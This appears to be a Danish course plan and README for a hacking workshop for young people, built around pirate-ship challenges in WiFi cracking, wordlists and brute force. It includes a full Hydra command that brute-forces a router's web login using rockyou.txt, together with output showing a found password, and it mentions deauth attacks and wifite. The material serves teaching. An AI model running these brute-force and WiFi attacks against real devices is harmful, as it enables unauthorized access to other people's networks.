 # pirathak
[![CC BY-NC-SA 4.0][cc-by-nc-sa-shield]][cc-by-nc-sa]

### TODO

 - Kort over piratskibet
 1. Netværk med computere: ping finde computer + ssh ind til en computer med en kode fundet ved cewl.
    1. PING
    2. SSH
    3. HYDRA -> finder password til ESP (opgave 2.)
 2. Esp opgaver - evt med WEP sikkerhed/ protokol. Vi bruger wifite til at knække koderne med:
    1. logge ind på et wifi og få en portal. Koden er i opgavebeskrivelsen, portalen viser hvad der skal eksporteres
    2. tegn ordbog. Opgavebeskrivelsen beskriver hvor mange tegn kodeordet er på. Portalen viser en hjemmeside hvordan den sidste ESP brydes op.
    3. cewlopgave hvor der høstes ordbog på en side til at brute
    4.

---
---

Uge 36/ 6.september: introduktion terminal, filer, directories
 - Piraterne skal kunne forstå filstruktur i homedirectory
 - Skal kunne bevæge sig i filstrukturen, komme hjem, lave filer, directories
 - Vise filer med cat, bruge less/ more

Uge 37/ 13.september: wordlists og brute force angreb
 - Grundlæggende forståelse af wifi teknologi
 - Forståelse af at generere ordlister med crunch
 - Kunne scanne efter wifi netværk
 - Kunne lave et brute force angreb

Brute force eksempel på at hacke et router interface (en http form) - det kan vi ikke gøre med wifi?!
```
hydra -l root -P ./rockyou.txt -t 9 -V -I 192.168.1.1 http-post-form "/cgi-bin/luci:username=^USER^&password=^PASS^:Invalid username"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-21 23:21:36
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 9 tasks per 1 server, overall 9 tasks, 14344399 login tries (l:1/p:14344399), ~1593823 tries per task
[DATA] attacking http-post-form://192.168.1.1:80/cgi-bin/luci:username=^USER^&password=^PASS^:Invalid username
[ATTEMPT] target 192.168.1.1 - login "root" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "princess" - 6 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "1234567" - 7 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "rockyou" - 8 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "12345678" - 9 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "abc123" - 10 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "nicole" - 11 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "daniel" - 12 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "babygirl" - 13 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "monkey" - 14 of 14344399 [child 4] (0/0)
[80][http-post-form] host: 192.168.1.1   login: root   password: princess
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-21 23:22:21
```

Uge 38/ 20.september: deauth angreb og generering af wordlists
 - Brug af f.eks. cewl (web scraping), cupp (profilering)
 - Brug af wifite


This work is licensed under a
[Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License][cc-by-nc-sa].

[![CC BY-NC-SA 4.0][cc-by-nc-sa-image]][cc-by-nc-sa]

[cc-by-nc-sa]: http://creativecommons.org/licenses/by-nc-sa/4.0/
[cc-by-nc-sa-image]: https://licensebuttons.net/l/by-nc-sa/4.0/88x31.png
[cc-by-nc-sa-shield]: https://img.shields.io/badge/License-CC%20BY--NC--SA%204.0-lightgrey.svg
